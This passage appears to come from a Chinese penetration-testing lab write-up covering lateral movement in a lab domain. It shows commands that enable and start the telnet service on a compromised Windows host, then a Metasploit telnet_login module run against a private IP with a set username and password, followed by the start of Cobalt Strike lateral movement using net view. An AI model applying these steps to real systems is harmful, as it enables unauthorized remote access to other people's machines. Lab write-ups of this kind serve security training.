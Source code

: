 ### telnet 远程连接服务 (141 机器)：

Telnet（"Telecommunication Network" 的缩写）是一种用于在计算机之间进行远程终端连接的协议。Telnet 服务允许用户通过网络远程登录到远程主机，并在远程主机上执行命令，就像直接在本地计算机上执行一样。Telnet 是一个简单的文本协议，主要用于远程管理和调试。

开启 23 端口并打开 telnet 服务：

```bash
set COMMAND sc config tlntsvr start= auto
set COMMAND net start telnet
```

接下来 telnet 连接

```bash
use auxiliary/scanner/telnet/telnet_login
set RHOSTS 192.168.52.141
set username hack
set PASSWORD qaz@123
exploit
```

自行连接：

```bash
telnet 192.168.52.141
```

[![](assets/1701827767-bc8159be78b492db12001b2d7ef2e3aa.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231202193055-41aa9b50-9106-1.png)

## CS 横向渗透 (138 机器)：

net view 首先查看域内信息：

[![](assets/1701827767-c97864747f506142b422ec36ac572689.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231202193112-4be78434-9106-1.png)
